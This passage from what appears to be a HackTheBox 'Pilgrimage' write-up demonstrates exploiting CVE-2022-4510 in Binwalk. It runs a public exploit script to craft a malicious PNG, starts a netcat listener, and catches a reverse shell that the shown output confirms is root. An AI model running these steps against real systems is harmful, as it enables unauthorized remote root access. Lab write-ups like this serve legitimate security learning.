 ### Exploit
The exploit found by `searchsploit` can be used like the following:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ python 51249.py exploit.png 10.10.16.116 8081

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.


┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ file binwalk_exploit.png 
binwalk_exploit.png: PNG image data, 3285 x 3808, 8-bit/color RGBA, non-interlaced

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage]
└─$ 
```

Since the script only checks the shrunken file we have to upload it to server (via `scp`, python webserver, etc.) and copy it by hand into the directory. The shrink would otherwise destroy the exploit.

So we can try to catch our reverse shell and copy the image:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.219 46470

ls -al 
total 28
drwxr-xr-x 7 root root 4096 Nov 28 05:53 .
drwx------ 5 root root 4096 Jun  8 00:10 ..
drwxr-xr-x 2 root root 4096 Nov 28 05:19 _6564ddcabb547.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:48 _6564e4602feeb.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:50 _6564e4e9bef7f.png.extracted
drwxr-xr-x 2 root root 4096 Nov 28 05:51 _6564e5484a9d3.png.extracted
drwxr-xr-x 3 root root 4096 Nov 28 05:53 _binwalk_exploit.png.extracted

id
uid=0(root) gid=0(root) groups=0(root)
```

